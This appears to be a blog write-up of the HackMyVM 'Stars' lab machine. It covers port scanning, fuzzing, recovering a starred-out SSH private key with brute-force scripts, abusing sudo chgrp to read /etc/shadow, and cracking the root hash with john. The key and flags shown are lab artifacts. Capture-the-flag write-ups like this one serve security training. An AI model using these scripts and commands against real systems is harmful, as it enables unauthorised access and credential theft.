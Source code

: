 ```yaml
---
layout: post
author: canarinho
title:  "Stars"
date:   2021-12-31 09:52:10 AM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Stars)

## Scannning and Fuzzing

{% highlight bash  %}
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2021-12-28 13:30 -03
Nmap scan report for debian (192.168.15.96)
Host is up (0.0040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   3072 9e:f1:ed:84:cc:41:8c:7e:c6:92:a9:b4:29:57:bf:d1 (RSA)
|   256 9f:f3:93:db:72:ff:cd:4d:5f:09:3e:dc:13:36:49:23 (ECDSA)
|_  256 e7:a3:72:dd:d5:af:e2:b5:77:50:ab:3d:27:12:0f:ea (ED25519)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
|_http-title: Cours PHP & MySQL
|_http-server-header: Apache/2.4.51 (Debian)
MAC Address: 08:00:27:00:E5:67 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 7.32 seconds
{% endhighlight %}

The cookie show us the file we looking for: poisonedgift.txt.

Accessing it, we found this private key:

{% highlight text %}
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsruS5/Cd7clZ+SJJj0cvBPtTb9mfFvoO/FDtQ1i8ft3IZC9tHsKP
ut0abGtFGId9R0OB1ONB+iOMK5QNpoCXda3RDXJQ9oRCWjd2DxqRAyvdThhxq6wYJSATpa
l7M9UemrK/aDuZTAqLUSA9Zvpx474TiWXBMjdGqN2K/+SCf/DqIyknDLDRexe0Lc0IsNCV
/O39j4XJprHXMQZNaiokSuzV3VlXAYYBcTIK2Id/EMerpQdiNjMGvVIuBxfbF9/MGhEnR+
1fxxPTHZnKw5snlb47ynWtahCuZVVQr0b+c5z6MXVSJKP8LY0m8clQqUCwbPbCJnRJRCwh
TJY/xz0cu4H+Lbtx38iUv6NjiPXsvd/0FPjmNWrIwA3m4yYQL1dmSCX7JZAqYV5axI8box
Z4oHJP5dHADWdzic2XSqDSpIMxnDhlLh02ksCfNbkNkqbsiw/AO6IxnToPLH7jVjoYxnmA
y97klEGvt2UqIugfUV1p6j1sybTcM59ZUbo16i47AAAFiNnGZRvZxmUbAAAAB3NzaC1yc2
EAAAGBALK7kufwne3JWfkiSY9HLwT7U2/Znxb6DvxQ7UNYvH7dyGQvbR7Cj7rdGmxrRRiH
fUdDgdTjQfojjCuUDaaAl3Wt0Q1yUPaEQlo3dg8akQMr3U4YcausGCUgE6WpezPVHpqyv2
g7mUwKi1EgPWb6ceO+E4llwTI3Rqjdiv/kgn/w6iMpJwyw0XsXtC3NCLDQlfzt/Y+Fyaax
1zEGTWoqJErs1d1ZVwGGAXEyCtiHfxDHq6UHYjYzBr1SLgcX2xffzBoRJ0ftX8cT0x2Zys
ObJ5W+O8p1rWoQrmVVUK9G/nOc+jF1UiSj/C2NJvHJUKlAsGz2wiZ0SUQsIUyWP8c9HLuB
/i27cd/IlL+jY4j17L3f9BT45jVqyMAN5uMmEC9XZkgl+yWQKmFeWsSPG6MWeKByT+XRwA
1nc4nNl0qg0qSDMZw4ZS4dNpLAnzW5DZKm7IsPwDuiMZ06Dyx+41Y6GMZ5gMve5JRBr7dl
KiLoH1Fdaeo9bMm03DOfWVG6NeouOwAAAAMBAAEAAAGBAICL9cGJRhzCZ0qOhXdeDAw6Mi
1MyGX/HQ4Nqkd4p8FbA4hCr+mipzsPULTPhdd5gvnhLJyPgmFEdcjV5+drrwM9KxDPujlC
sHIwV2HPiqJMRxOm8wI0eP0ij97jATArRKKgkpeF3eBZ6Q9E78SDtavFhkmYfJYAOXq0NA
eNMuqPu+Xj8CjpdxBf4P/b6jc5HdbW2DoEUB7q40loLf+AJbAZnEthuPjoh1sBUdmfwhyw
btv3boRquJsrYt1JJ***qguwyDSLtXj4Wuxa7jZcLLSAuTHS+zWKwZA/8J1IpZAZhgkVXJ
fC8ZbG0M63VEQjuGXCuIY3cq1iQuXERhhbRuJ1XZT8Hki5YBaU/f5Wp7bId25Aps4ktljU
r67S9mwwppQ8dVmP6CsENgc3ivpWCDWC4PZojTgZ4qhWMpjCaUxe1Hi7GuvlRJNLL4A7Fx
kTV9nBcLlGfqzvVUPeEAZgXz4IxCx8KdTrDr/oXWw4hjqtuyRKveMjmKQ6HADFl7SMCQAA
AMBz8rqB0Mfb4U34LeA1kdZLFsGX3AZqahTDjEcZYAPI/A5Dt5iw0LcGRgrHuPccS5fA3E
GT2FceoMX2ccE5fEVydxcj2vcnPIQ01P6fxjVXpA7QDnJ2At2LLPcD9CuuSt/HCrp/Bmjv
IUFvjSgKl5nYGPfoeitIdFdM72liQ+0814iNzxNl5WuNeiJ+XAGuXqJT02gAxMRQPiJ67e
sMzJyVvM69B0kGkyAXTO9fcfq+X2JaCz3hId6Iwr68Mxe/L6MAAADBAOEpkHeU8xn5MHwG
79vpd6Cg7p1UqfDuvMOgvZe6eIOE3FIb1nWpCqjq9P0Myv8aCWYhwgKr3SNIWkZ1u+0NR9
43cZO7FWa4/DvI5gX6dlrcGy1BVoDuMWIWDw9bgXpQiGQSkQOQ3J/RPWH/xT5LQbrBVTK8
C8r4lrWDwWLMgk1Wbef6U0NBuY1+J4Hafsz2Psei3yFsjjA3djonb8JF+RnHRoO8TeJlj4
RjbkXTlhsGkdR77PNZmkZ2KVwn2VzsPwAAAMEAyzYixNTrJ4vPtjUluq7+O9qGwqpbl3i0
9ESSrC2NzbsA2afNjCWhfaLPpfNYR2gA1aQUgdRxNSM78P+plFhMUeGwTIsLsKEkbbtSqF
nUU/g3yNGFr4Die7AB0vZSHwWaQFMf+ZfXNwVRa0jmKfUc/itXgwxi3oqtWTJA7YKmXdrD
03EN/DboyflPcbmTJ4D6E6XqTeyfGamr0w5aelqqwTh/Mm+DuoHHiPMYThUMrG4iUvSRaz
ZgGQTtZoQRxi8FAAAADXNvcGhpZUBkZWJpYW4BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
{% endhighlight %}

{% highlight bash  %}
ffuf -u <http://192.168.15.96/FUZZ.txt> -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30

	sshnote                 [Status: 200, Size: 117, Words: 22, Lines: 5]
{% endhighlight %}

[http://192.168.15.96/sshnote.txt](http://192.168.15.96/sshnote.txt)

{% highlight text %}
My RSA key is messed up, it looks like 3 capital letters have been replaced by stars.
Can you try to fix it?

sophie
{% endhighlight %}

## Getting ssh access, thank you

{% highlight bash  %}
#!/bin/bash

directory=keys
letters=dic.txt
file=id_rsa

mkdir $directory

for i in $(cat $letters); do
	echo generate $directory\\\\$i.rsa [$i]
	sed "s/\\*\\*\\*/$i/" $file > $directory/$i.rsa
done;
{% endhighlight %}

{% highlight bash  %}
#!/bin/bash

directory=keys
letters=dic.txt

chmod 600 $directory/*

for i in $(ls -1 $directory/*); do
	echo $i
	ssh sophie@192.168.15.96 -i $i 2>/dev/null
done;
{% endhighlight %}

The right letters is BOM. So... BOOOM ehehe

{% highlight text %}
user.txt 	->	a99ac9055a3e60a8166cdfd746511852
{% endhighlight %}

## Privesc

{% highlight bash  %}
sophie@debian:~$ sudo -l
User sophie may run the following commands on debian:
    (ALL : ALL) NOPASSWD: /usr/bin/chgrp

sophie@debian:~$ sudo /usr/bin/chgrp sophie /etc/shadow
sophie@debian:~$ cat /etc/shadow
root:$1$root$dZ6JC474uVpAeG8g0oh/7.:18917:0:99999:7:::
{% endhighlight %}

{% highlight bash  %}
john passroot --wordlist=/usr/share/wordlists/rockyou.txt
barbarita        (?)
{% endhighlight %}

Now, just access login as root and pow bow tchau.

{% highlight text %}
root.txt 	->	bf3b0ba0d7ebf3a1bf6f2c452510aea2
{% endhighlight %}